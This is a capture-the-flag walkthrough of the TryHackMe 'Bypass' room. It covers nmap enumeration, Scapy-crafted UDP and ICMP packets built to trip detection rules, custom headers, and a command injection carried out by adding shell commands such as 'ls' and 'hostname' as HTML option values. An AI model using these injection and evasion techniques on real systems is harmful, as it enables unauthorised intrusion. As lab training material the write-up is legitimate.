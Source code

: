 # TryHackMe Bypass

We start by doing basic enumeration on the target machine. To make things smoother that it works fine on the browser, add an entry "cctv.thm" on your hosts file (/etc/hosts on Linux, c:\Windows\System32\Drivers\etc\hosts on Windows).

First, what are the services running on the server?
> nmap -sV -sC -p-65535 cctv.thm

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-04-12 11:47 -03
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.99% done; ETC: 11:47 (0:00:00 remaining)
Nmap scan report for cctv.thm (10.10.194.80)
Host is up (0.31s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=cctv.thm/organizationName=cctv.thm/stateOrProvinceName=Tokyo/countryName=AU
| Not valid before: 2023-08-30T10:08:16
|_Not valid after:  2024-08-29T10:08:16
| tls-alpn: 
|_  http/1.1
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.03 seconds
```

we DO have an ssh, but let's focus right now on the web services: we have an Apache service running on 80, and another port with https on 443. Interesting.

If we check the server on port 80 with the browser, we do see that it doesn´t seem to work... but on 443, it shows up!

<img src="writeup_img1.png">

We do have a password box, and it doesn´t seem to bother to do anything when we type the wrong password... BUT if we check the page source code, we do see a reference to a /mail endpoint
```html
  <!-- Main Content -->
<main class=" mx-auto py-8  min-h-[80vh] flex items-center justify-center gap-10 flex-col xl:flex-row">
<!-- Here we will add redirection to /mail endpoint -->
```

So what's in this /mail endpoint? AHA! We do have a dump.txt file with some instructions to recover the password
```
From: steve@cctv.thm
To: mark@cctv.thm
Subject: Important Credentials

Hey Mark,

I have completed all the formalities for securing our CCTV web panel (cctv.thm:443). I have installed Suricata to automatically detect any invalid connection and enabled two-layer protection for the web panel. I will SMS you the passwords but incase if you misplace them, there is no possibility for recovery. 

We can recover the password only if we send some specially crafted packets 	
-	Make a UDP request to the machine with source port number 5000. Once done, you can fetch the flag through /fpassword.php?id=1
-	Make a TCP request to fpassword.php?id=2 with user-agent set as "I am Steve Friend". Once done, you can fetch the flag through /fpassword.php?id=2
-	Send a ping packet to the machine appearing as Mozilla browser (Hint: packet content with user agent set as Mozilla). Once done, you can fetch the flag through /fpassword.php?id=3
-	Attempt to login to the FTP server with content containing the word "user" in it. Once done, you can fetch the flag from /fpassword.php?id=4
-	Send TCP request to flagger.cgi endpoint with a host header containing more than 50 characters. Once done, you can fetch the flag from /fpassword.php?id=5

After receiving all the flags, you can visit the MACHINE IP that will ask you for the password. The first password will be concatenated values of all five flags you have received above.

For the second layer of security, I have enabled a wholly sandboxed login environment with no connection to the database and no possibility of command execution. The username is the computer's hostname, and the password is the same as the previous password. I will SMS you the details as well.


See ya soon

Steve
Dev Ops Engineer
```

Alright, so we have a plan now. There are 5 steps to recover the password, and after that it seems there is also a last step to recover somehow the computer's hostname.

Let's do it in parts:
1) "Make a UDP request to the machine with source port number 5000."
	There are some ways to work with packets using different languages... In my case, since i was researching a tool precisely for this last night, I've decided to use Scapy: It's a python tool that allows us to create custom packets with (some) ease. just do a 
	```bash
	pip install scapy
	```
	and... now, the bothersome part: for me it needed sudo to send the packets. There are some workarounds for this on the interwebs, but i just went with 
	```bash
	sudo $(which scapy)
	```
	 and it worked for me. 
	Now, on Scapy shell, we create our packet: (remember to change the ip for your instance)

	```python
	send(IP(dst="10.10.173.248")/UDP(sport=5000))
	```

	pay attention that it requires the SOURCE port to be 5000, not the DESTINATION port!
	With this, we can do as it says and check on the browser the endpoint cctv.thm/fpassword.php?id=1 and we do see that we have our flag!

	<img src="writeup_img2.png">

2) "Make a TCP request to fpassword.php?id=2 with user-agent set as 'I am Steve Friend'."
	We can write a very basic python requests code for this:
	```python
	import requests
	url = "http://10.10.173.248/fpassword.php?id=2"
	headers = {"User-Agent":"I am Steve Friend"}
	resp = requests.get(url, headers=headers)
	```
	Simple and clean. Now we check /fpassword.php?id=2 again and, voilà!

3) "Send a ping packet to the machine appearing as Mozilla browser (Hint: packet content with user agent set as Mozilla)"
	We can use Scapy here again. If we look for ping on Scapy's documentation, there is a one-liner there that we can use:
	```python
	ans, unans = sr(IP(dst="10.10.173.248")/ICMP()/Raw(load="User-Agent: Mozilla/5.0"), timeout=3)
	```
	note that we had to add the User-Agent on the raw data for the packet for it to work!
	And we just check now fpassword.php/id=3 and the flag is there!

4) "Attempt to login to the FTP server with content containing the word 'user' in it."
	This is the easiest one, we can just try to login on ftp with the user as 'user'
	```bash
	ftp user@cctv.thm
	```
	and BOOM! check fpassword.php?id=4 to find our flag!

5) "Send TCP request to flagger.cgi endpoint with a host header containing more than 50 characters."
	For some reason this one gave me some trouble. After trying to work with Scapy and Requests on python, I've decided to use a proxy (like Burp or mitmproxy) so I can intercept the packet and change the host header. In my case I've used mitmproxy (It's good to try new tools! Don´t rely only on Burp for all your hacking!):
	<img src="writeup_img3.png"><img src="writeup_img4.png">
	Now checking if it worked on fpassword.php?id=5 ... and IT DID!

Alright, we do have all the 5 flags now... the dump.txt file said that we would get the password by concatenating all the passwords found above... so there are two ways this could work: literally concatenate all the flags, to get: 
```
THM{REDACTED}THM{REDACTED}THM{REDACTED}THM{REDACTED}THM{REDACTED}
```

or we could try to join only the inner parts:
```
THM{REDACTEDREDACTEDREDACTEDREDACTEDREDACTED}
```

turns out that trying the first one worked just fine. :)

Now we have our second login page, and we already know what to fill on the username: the computer's hostname!... that we don't know yet. But, they gave us a hint: "I have enabled a wholly sandboxed login environment with no connection to the database and **no possibility of command execution.**"

<img src="writeup_img5.png">

There was this video from John Hammond, where he explains how he passed OSCP... and he said something like "Everything that is on the box is there **FOR A REASON**" (and that's a very good thing to remember when working on challenges and ctfs); Here we are, with a login page with username and password... and a date? In a listbox? Hmm...
If we check the html, we do see that it is indeed a list, but with only one option, and below there is a javascript that makes it submit the page when there is a change on the listbox... and if we keep reloading the page, we note that the minutes/seconds keep changing... maybe it pulls out the date from the 'date' command?

So let's try something... open up the developer tools (F12), modify the html to add a **new** option there
```html
<option value="ls">ls</option>
```

so it looks like this...

<img src="writeup_extra1.png">

Now update the page, change the option to 'ls' and... we have our directory list! IT WERKS!

<img src="writeup_img6.png">

Note that is is Remote Code Execution, and if we wanted we could get shell access on the box. But for this room, this is not needed.

Create a new option for lsb_release, so we can answer the question on the room...
```html
<option value="lsb_release -r -s">lsb_release -r -s </option>
```

and finally we get the hostname of the machine
```html
<option value="hostname">hostname</option> 
```

With the hostname, now we know the username for our login page, and finally we get the last flag!

<img src="writeup_img7.png">
